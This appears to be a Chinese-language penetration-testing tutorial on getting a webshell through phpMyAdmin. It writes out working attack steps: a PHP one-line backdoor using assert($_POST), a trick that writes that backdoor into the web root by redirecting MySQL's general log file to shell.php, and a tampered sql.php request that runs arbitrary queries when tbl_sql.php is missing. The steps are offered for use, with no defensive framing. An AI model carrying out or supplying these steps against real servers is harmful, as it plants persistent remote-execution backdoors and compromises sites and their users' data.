# phpmyadmin getshell

## INTO OUTFILE禁用情况下getshell

```sql
SELECT '<?php assert($_POST["cmd"];?>' INTO OUTFILE 'C:/phpstudy/WWW/xTFpoin.php';
```

```sql
#1290 - The MySQL server is running with the --secure-file-priv option so it cannot execute this statement.
```

```sql
SHOW VARIABLES LIKE '%secure%'
```
发现`secure_file_priv`为`NULL`

secure-file-priv这个全局变量是指定文件夹作为导出文件存放的地方，默认情况下，secure-file-priv是一个空值（NULL）。

我们现在设置为网站的根目录，再去尝试使用INTO OUTFILE getshell。发现其是只读的。

最后我发现MySQL 5.0+的版本会自动创建日志文件，那么在服务运行的情况下修改全局变量也是可以变动文件位置的，但是必须要对生成日志的目录有可读可写的权限。（Linux环境下可能会比较苛刻，因为站点目录是一个用户，MySQL是另外一个用户，权限管控较为严格，主要取决于权限配置是否得当）

日志文件同步保存了我们所有的SQL语句,我们要在站点目录下使用MySQL的日志功能创建一个shell.php

```sql
SHOW VARIABLES LIKE '%general%'
```
发现：
```
general_log 	OFF
general_log_file 	I:\phpstudy\MySQL\data\LAPTOP-FP8NTCII.log
```

打开日志：
```sql
SET GLOBAL general_log = 'ON'
```
然后设置general_log_file的值为我们一句话木马的绝对路径：
```sql
SET global general_log_file='I:\\phpstudy\\WWW\\shell.php';
```
写入一句话，POST里的单引号要用双引号，不然会被加\
```sql
SELECT '<?php assert($_POST["admin"]);?>';
```

# phpmyadmin里tbl_sql.php被删情况下如何执行sql语句？

因为有tbl_sql.php,sql.php两个脚本可以执行查询语句，所以在换用sql.php进行执行命令。

在phpmyadmin里点击mysql里面table如`db`，然后抓包，修改
```
GET /phpmyadmin/sql.php?db=mysql&token=35d3764a85e413e730ad6280189a5a96&table=db&pos=0 HTTP/1.1
```
为
```
GET /phpmyadmin/sql.php?db=mysql&token=35d3764a85e413e730ad6280189a5a96&table=db&pos=0&sql_query=select%20@@version HTTP/1.1
```
